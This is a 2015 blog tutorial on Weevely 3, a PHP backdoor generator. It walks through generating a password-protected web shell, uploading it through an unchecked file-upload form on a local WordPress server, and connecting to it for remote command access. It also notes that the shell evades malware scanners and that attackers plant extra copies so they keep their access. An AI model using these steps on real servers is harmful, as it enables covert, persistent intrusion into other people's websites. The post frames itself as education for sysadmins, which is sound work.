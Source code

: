 +++
author = "Mansoor A"
date = 2015-03-17T09:05:00Z
description = ""
draft = false
url = "weevely-3-tiny-yet-dangerous-php-she"
title = "Weevely 3 - The Tiny Yet Dangerous PHP Shell"

+++


> DISCLAIMER: Whatever discussed here is for educational purposes and to protect yourselves from such attacks. I'm in no way responsible for whatever damage you cause to anyone or anything by following the things discussed here.


### Weevely?

Weevely is a php backdoor generator. One of the cool thing ( or should I say troubling thing - from a sysadmin's perspective ) about it is that, it is not detected by most of the malware scanners ( To be honest, I scanned such a shell using virus total, and none of them detected it as a malware )

This is a good thing for a cracker and it is a troubling thing for  a Sysadmin.

#### How does crackers use this backdoor to maintain access?

Here is the thing, you can use this shell to maintain access to an already hacked website, or you can use this to hack a website ( if it provides an option to upload files without checking what exactly is being uploaded ).

The crackers finds a way to upload a shell to your server and then BAM!. They have access to all your files. OR, a cracker hacks your site somehow ( bruteforce, social engineering, or whatever) and upload theses shells to various parts of your website, so that even if you found one of these shell and delete it, they can access your server using another one.


### How about a practical example?
Here, I will show you how it is done. Please note that I am doing this in a locally set up web server, but the principle is same for all the web servers. Also, please do this only on the sites you own, or in those you are allowed to perform such actions.


### The Setup

1. I have an Ubuntu server running on this IP: 192.168.1.102
2. There is WordPress installation, and also an upload form where you can upload files
3. I'm using Backbox Linux as the attacking machine. You can use any Linux machines for this purpose. Kali, Backtrack, Ubuntu, Mint or whatever it is that you're using.

#### Step 1: Installing Weevely 3 on your machine:
```shell
# Make sure that the python package manager and yaml libraries are installed
$ sudo apt-get install g++ python-pip libyaml-dev python-dev
# Install requirements
$ sudo pip install prettytable Mako pyaml dateutils --upgrade
```

Now, download  weevely 3 from <a href="https://github.com/epinna/weevely3/archive/master.zip" target="_blank">HERE</a><br /> You can find more information about Weevely 3 from the github page: <a href="https://github.com/epinna/weevely3" target="_blank">HERE</a>


We are all set. Now, unzip the package and open the terminal and change directory to the weevely3 directory.
If you are too lazy to do all that, copy and paste the following command in your terminal.


```shell
wget https://github.com/epinna/weevely3/archive/master.zip
unzip master.zip
cd weevely3-master
```



#### Step 2: Creating the backdoor
If you do an "ls" command inside the weevely directory, you could see all the files, and weevely.py is the python script that we will be executing

This is how you create a backdoor:


```shell
# This will show you all the options you got
$ ./weevely.py

# The following command will generate a backdoor 
$ ./weevely.py generate password backdoor.php

# The above command will create a backdoor named "backdoor.php" with a password "password"
```


Now we have our backdoor. The next step is to upload it to the web server.


#### Step 3: Getting things done - Uploading to the server

For this to work, you need a place where you can upload any files ( since you are testing it in your own workstation, that shouldn't be  a problem. 😉 )


 ![Php uploader](https://cdn.esc.sh/jekyll/posts/weevely/php_uploader.jpg)

Here, check it out. I have an upload form and I have uploaded the generated backdoor ( shell.php ) to the server using this upload form.

#### Step 4: Accessing the shell

Now we have a backdoor in a server. We need to access it right?

```shell
# This is how you access the uploaded shell
$ ./weevely http://the-website.tld/path/to/the/backdoor.php password

# of course you will have to replace the path with the actual path to the uploaded shell,
# and you have to provide the password you previously set when created the shell.

# So, In my example, I will access the shell using the following command

$ ./weevely http://192.168.1.102/wordpress/hackme/shell.php noob

# where "noob" is my password and 192.168.1.102/wordpress/hackme/shell.php is the
# location of the shell in the server.
```


As soon as you issue the above command, you will get access to a shell in the server.


 ![Shell](https://cdn.esc.sh/jekyll/posts/weevely/shell.jpg)


Type any command like "ls" and you can see that you are using the shell in the server. But, hey, remember one thing, you got a shell in the server, but you are not root ( yet ). You don't have administrative privileges, but you can manipulate the contents in the document root of apache, which is pretty nice.

 ![Shell](https://cdn.esc.sh/jekyll/posts/weevely/shell_1.jpg)


So, this is it. Hope you guys enjoyed this post. Keep one thing in mind, please don't do any of these on anything that you do not own. Thank you.!

